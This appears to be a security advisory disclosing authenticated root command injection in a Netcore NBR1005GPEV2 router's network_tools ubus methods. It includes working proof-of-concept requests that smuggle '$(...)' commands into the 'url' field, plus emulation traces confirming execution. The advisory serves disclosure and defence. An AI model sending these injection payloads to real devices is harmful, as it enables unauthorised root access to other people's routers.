

# Netcore NBR1005GPEV2 Router

- Vendor: Netcore
- Product: NBR1005GPEV2
- Firmware Version: V1.3.241107.015153 (LEDE 17.01-SNAPSHOT, MIPS16e mipsel / MT7621)
- Vulnerability Type: OS Command Injection (CWE-78)
- Severity: High

> Note: this is the **ELF binary** `/usr/bin/network_tools` (the ubus `network_tools` object), **not** the shell CGI `/www/cgi-bin/network_tools`. The CGI is a separate, more severe unauthenticated RCE covered in its own advisory.

## Overview

The `tools_ping` (and `tools_traceroute`) ubus methods of the `network_tools` daemon pass the user-supplied `url` argument unsanitized into a `system()` call that builds a `ping`/`traceroute` command. An authenticated attacker (the `network_tools` object is in the `websuperuser` ACL) can inject arbitrary commands executed as `root`.

Endpoint: `ubus call network_tools tools_ping` / `tools_traceroute` (over `/ubus` JSON-RPC).

## Vulnerability Details

**Component:** `/usr/bin/network_tools` (ELF, MIPS16e, not stripped).

`tools_ping` builds the command and runs it in the background:



```c
snprintf(buf, "(ping %s -c %d -s %d -I %s > %s; touch %s)&", url, count, size, iface, "/tmp/ping.txt", "/tmp/.ping_end");
system(buf);                       // url is the attacker-controlled value, no filtering
```

Taint flow: ubus blobmsg `url` → `snprintf("%s")` → `system(buf)`.

`tools_traceroute` follows the same pattern: `system("(traceroute %s -m %d > %s && ...)&")` with `url` injected.

## Proof of Concept

Direct ubus call:

```sh
ubus call network_tools tools_ping '{"action":"start","url":"$(id>/www/p.txt)","count":1,"size":56,"wanid":0}'
```

Over HTTP `/ubus` JSON-RPC (authenticated session `<sid>`):

```http
POST /ubus HTTP/1.1
Host: <target>
Content-Type: application/json
Content-Length: <len>

{"jsonrpc":"2.0","id":1,"method":"call","params":["<sid>","network_tools","tools_ping",{"action":"start","url":"$(id>/www/p.txt)","count":1,"size":56,"wanid":0}]}
```

Then `GET /p.txt` → `uid=0(root) ...`. A classic `;`/`|`/`` ` `` payload also works; `$()` is used here because it lands cleanly inside the `system()` argument. `tools_traceroute` is exploitable the same way via the `url` field.

## Impact

Authenticated remote code execution as `root`. Reachable from LAN (and WAN if remote admin is enabled) by any user with a valid web session. Prerequisite: a valid session — obtainable on an unconfigured device where the default password is known, which chains with the empty-`root` / default-credential issues.

## Reproduction Result

Verified in emulation (`qemu-user-static` + chroot, `network_tools` started, `strace -f -e trace=execve` attached). The injected `url` reached `system()` unfiltered:

```
execve("/bin/sh", ["sh","-c","(ping $(touch /tmp/RCE_NT) -c 1 -s 56 > /tmp/ping.txt; touch /tmp/.ping_end)&"], ...)
execve("/bin/touch", ["touch","/tmp/RCE_NT"], ...)
```

`$(touch /tmp/RCE_NT)` executed, creating the file owned by `root`, confirming arbitrary command execution.
